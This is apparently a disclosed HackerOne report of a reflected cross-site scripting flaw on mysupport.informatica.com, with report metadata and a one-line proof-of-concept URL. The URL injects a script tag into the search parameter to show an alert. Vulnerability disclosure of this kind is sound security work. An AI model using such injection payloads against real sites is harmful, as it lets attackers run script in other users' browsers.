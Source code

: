 # [mysupport.informatica.com] - reflected XSS

## Report Details
- **Report ID**: 39069
- **URL**: https://hackerone.com/reports/39069
- **State**: Closed
- **Severity**: high
- **Submitted**: 2014-12-11T17:36:08.264Z
- **Disclosed**: 2023-10-05T04:59:07.705Z

## Reporter
- **Username**: mtk0308
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
mysupport.informatica.com has reflected XSS vulnerability.

I used browser is Firefox 34.0.5
PoC:
https://mysupport.informatica.com/search.jspa?q=zzz%3C%2Fscript%3E%3Cscript%3Econfirm%28document.domain%29%3B%3C%2Fscript%3E

thanks

## Attachments
- __________2014-12-12_2.33.19.png
